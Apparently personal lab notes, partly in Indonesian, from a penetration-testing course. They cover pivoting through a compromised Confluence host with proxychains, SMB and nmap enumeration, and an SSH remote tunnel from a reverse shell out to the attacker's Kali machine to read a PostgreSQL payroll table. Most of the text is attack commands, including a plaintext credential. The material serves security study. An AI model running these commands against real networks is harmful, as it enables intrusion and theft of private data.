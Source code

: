 proxychains looks for config file in following order:
> file listed in environment variable PROXYCHAINS_CONF_FILE or provided as a -f argument to proxychains script or binary.
> /proxychains.conf
> $(HOME)/.proxychains/proxychains.conf
> /etc/proxychains.conf
> /etc/proxychains4.conf

>> DI KALI KITA HARUS PAKE YG /etc/proxychains.conf
```/etc/proxychains.conf
socks5 192.168.198.63 1080
```
>> Tinggal tambahin aja.
>> 192.168.198.63 IP dan Port server yg jalanin socks proxy (CONFLUENCE01)
>> Beda aturan dengan yg chisel.

3) Enumerate SMB with proxychains
```bash
proxychains smbclient -L //172.16.198.217/ -U hr_admin --password=Welcome1234
```
4) Nmap with proxychains
```bash
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.198.217

sudo proxychains nmap -sTV -Pn -n -vvv -p4800-4900 172.16.198.217
proxychains ./ssh_dynamic_client -i 172.16.198.217 -p 4872
```
>> NMAP VIA PROXYCHAINS HARUS -Pn karena proxychains gk bisa nerima ping balik.
>> Notice, kita gk bisa ssh ke server Postgresql pake proxychains. Krn pada kasus ini kita kyk langsung loncat setup proxychains di network Postgresql. Kita gk setup Proxychains di network Confluence. MAKANNYA DOUBLE PIVOTING WITH CHISEL IS BETTER, lebih flexible.

### SSH Remote Port Forwarding [INCASE ADA FIREWALL YG BLOCK LOCAL PORT FORWARDING]
> Scenario, ada firewall, gk bisa forward port postgresql kyk sebelumnya lagi.
> Firewall biasanya strict block inbound tapi gk block outbound, jadi kita balik aja prosesnya. Kali kita yg open buat SSH dan Confluence yg connect ke kita.

1) Open SSH server with kali
```bash
sudo systemctl start ssh
check if running
sudo ss -ntplu

>> set PasswordAuthentication to yes in /etc/ssh/sshd_config.
```
2) On Confluence machine after we got reverse shell. SSH ke kali kita pake -R buat remote forwarding.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
yes

check 2345 dah bisa diakses blom.
ss -ntplu
```
3) Harusnya skrng kita udah bisa akses postgresql server dari local kali kita. TAPI HANYA PORT 5432 lewat 2345 aja. Karena ini gk dynamic. Next module baru dynamic
```bash
psql -h 127.0.0.1 -p 2345 -U postgres
\l
\c hr_backup
\d
select * from payroll;
```
